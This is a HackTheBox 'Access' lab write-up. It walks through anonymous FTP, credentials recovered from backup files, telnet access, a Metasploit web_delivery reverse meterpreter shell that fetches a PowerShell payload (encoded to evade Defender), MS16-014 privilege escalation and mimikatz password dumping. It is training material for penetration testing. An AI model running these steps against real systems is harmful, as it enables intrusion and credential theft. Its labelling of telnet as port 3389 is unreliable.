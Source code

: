 ```yaml
---
layout: post
title: HackTheBox - Access
permalink: /htb-writeups/htb-access
---
```


![BoxInfo]({{ site.baseurl }}/assets/htb-images/access/infocard.png)

As always, I am starting off with an Nmap scan to determine open ports. After the scan has completed I will be able to determine my attack vector.

![Nmap]({{ site.baseurl }}/assets/htb-images/access/Nmap.png)

So it looked like that RDP and telnet are open, FTP allows for anonymous login. When I tried to access the FTP service from the browser It seems that i cannot do it, but when I tried to login from the terminal it allowed me ! I was prompted for username so I just used Anonymous for user and blank password, since the header of Nmap output, showed that FTP allows for anonymous access ! There were 2 directories inside FTP service: Backups and Engineer. Backups folder contained a file called "backup.mdb" and folder Engineer contained a zip file "Account Access.zip". I ran strings command on backups.mdb and I found
several interesting things:

admin , administrator, engineer, backup_admin, access4u@security

The last one access4u@security looked more like a password and so I passed it to the zip file: Access Control.zip and it worked so i extracted the file inside. Now the file inside the compressed file had an extension ".pst" so I used a tool called readpst to convert the file and read it with any kind of editor. After I opened the file, I found some information about an account on the system.

![acc_security]({{ site.baseurl }}/assets/htb-images/access/acc_security.png)

I used the found credentials in the Microsoft Telnet Service (port 3389) and it prompted me with a shell. So now I was inside the system and I could run commands.

![telnetaccess]({{ site.baseurl }}/assets/htb-images/access/telnetaccess.png)

After enumerating the system, I didn't find anything, so I decide to upload a windows enumeration script to find something for me. I have immediately discovered that I wasn't allowed to use backspace and arrows to quickly navigate through commands. I have decided to get a meterpreter session, but after trying to get through payload execution on the system it didn't work, so I opted to get a web based reverse shell, using the module 'exploit/multi/script/web_delivery'. What this module will do, is to generate a powershell command, which will be base64 encrypted to evade windows defender and metasploit will also open a web server on my machine so that when I execute the command in the telnet session, the windows box will access my metasploit web server, grab the payload and execute it.

As for the enumeration script, I used Sherlock (made by RastaMouse). This script is going to check for missing patches & software as well as show possible ways of privilege escalation. When the script finished the enumeration, I saw that script has found a common way of privilege escalation in Windows, Secondary Logon Handle, CVE: MS16-032! Once I tested the exploit it did not work, so I would assume at this point that the system was patched against this exploit.

 In Metasploit
 $ use multi/script/web_delivery
 $ set payload windows/x64/meterpreter/reverse_https

 Had some error with this exploit saying its not compatible so running this command fixed it !

 $ set target 2 ----> Sets payload delivery via Powershell
 $ set LHOST  
 $ set LPORT <>
 $ exploit -j

Copy command from metasploit & run on target machine !

![Payload_Delivery]({{ site.baseurl }}/assets/htb-images/access/Payload_Delivery.png)

I now had 2 shells as user 'security', one telnet & one meterpreter session. As MS16-032 did not worked,I have checked to see the closest exploit to date to MS16-032 and it was the MS16-014. Metasploit has a post exploitation module which uses this exploit to escalate privileges.

 In Metasploit after I get shell !

 $ meterpreter> background
 $ search ms16-014
 $ use exploit/windows/local/ms16_014_wmi_recv_notif
 $ set session 1
 $ exploit

![MS16-014MSFpostModule]({{ site.baseurl }}/assets/htb-images/access/MS16-014MSFpostModule.png)

This privilege escalation exploit spawned me in shell session instead of in meterpreter as NT_AUTHORITY user, so I quickly changed it to a meterpreter session using a post module.

 Switch from Shell -> Meterpreter

 $ctrl + z
 $ use post/multi/manage/shell_to_meterpreter
 $ set LHOST  
 $ set LPORT <>
 $ set session 2
 $ exploit

![System-Meterpreter]({{ site.baseurl }}/assets/htb-images/access/System-Meterpreter.png)

At this point, I tried to read the flag, but with no luck! Interestingly enough, I wasn't able to do because I didn't have permission and I was NT_AUTHORITY so it was really weird. My attempt to this was to grab the password for the Administrator user using mimikatz (developed by gentlekiwi). I uploaded the tool, and ran it, and I grabbed the password for user Administrator. After this, I opened another telnet session and logged in as Administrator and now I was able to read the root flag!

![MimikatzGetPasswds]({{ site.baseurl }}/assets/htb-images/access/MimikatzGetPasswds.png)

![Gotroothash]({{ site.baseurl }}/assets/htb-images/access/Gotroothash.png)